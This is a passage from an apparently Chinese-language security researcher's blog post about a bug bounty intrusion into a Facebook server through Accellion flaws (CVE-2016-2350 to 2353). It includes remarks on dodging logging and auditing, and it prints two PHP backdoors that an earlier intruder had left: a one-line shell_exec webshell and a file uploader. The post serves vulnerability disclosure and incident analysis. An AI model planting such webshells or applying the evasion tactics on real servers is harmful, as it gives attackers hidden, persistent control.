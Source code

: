 除了回報 Facebook 安全團隊外，其餘的弱點也製作成 Advisory 提交 Accellion 技術窗口，經過廠商修補提交 CERT/CC 後取得四個 CVE 編號

* CVE-2016-2350
* CVE-2016-2351
* CVE-2016-2352
* CVE-2016-2353

詳細的弱點細節會待 Full Disclosure Policy 後公布!

![shell on facebook](/images/blog/20160421/2.jpg)
*↑ 使用 Pre-Auth SQL Injection 寫入 Webshell*

<br>


在實際滲透中進去伺服器後的第一件事情就是檢視當前的環境是否對自己友善，為了要讓自己可以在伺服器上待的久就要盡可能的了解伺服器上有何限制、紀錄，避開可能會被發現的風險 :P  

Facebook 大致有以下限制:  

 1. 防火牆無法連外, TCP, UDP, 53, 80, 443 皆無法
 2. 存在遠端的 Syslog 伺服器
 3. 開啟 Auditd 記錄

無法外連看起來有點麻煩，但是 ICMP Tunnel 看似是可行的，但這只是一個 Bug Bounty Program 其實不需要太麻煩就純粹以 Webshell 操作即可。  

----------

### 似乎有點奇怪?

正當收集證據準備回報 Facebook 安全團隊時，從網頁日誌中似乎看到一些奇怪的痕跡。  

首先是在 "**/var/opt/apache/php\_error\_log**" 中看到一些奇怪的 PHP 錯誤訊息，從錯誤訊息來看似乎像是邊改 Code 邊執行所產生的錯誤?  

![PHP error log](/images/blog/20160421/3.jpg)
*↑ PHP error log*

<br>
跟隨錯誤訊息的路徑去看發現疑似前人留下的 Webshell 後門  

![Webshell on facebook server](/images/blog/20160421/4.jpg)
*↑ Webshell on facebook server*

<br>

其中幾個檔案的內容如下

<div class="highlight-name">sshpass</div>  
<pre><code>沒錯，就是那個 <a href='http://linux.die.net/man/1/sshpass'>sshpass</a></code></pre>
<div class="highlight-name">bN3d10Aw.php</div>
<div class="highlight"><pre><code class="language-php" data-lang="php"><span class="cp">&lt;?php</span> <span class="k">echo</span> <span class="nb">shell_exec</span><span class="p">(</span><span class="nv">$_GET</span><span class="p">[</span><span class="s1">'c'</span><span class="p">]);</span> <span class="cp">?&gt;</span><span class="x"></span></code></pre></div>

<div class="highlight-name">uploader.php</div>
<div class="highlight"><pre><code class="language-php" data-lang="php"><span class="cp">&lt;?php</span> <span class="nb">move_uploaded_file</span><span class="p">(</span><span class="nv">$_FILES</span><span class="p">[</span><span class="s2">"f]["</span><span class="nx">tmp_name</span><span class="s2">"], basename(</span><span class="si">$_FILES["f"]</span><span class="s2">["</span><span class="nx">name</span><span class="s2">"])); ?&gt;</span></code></pre></div>
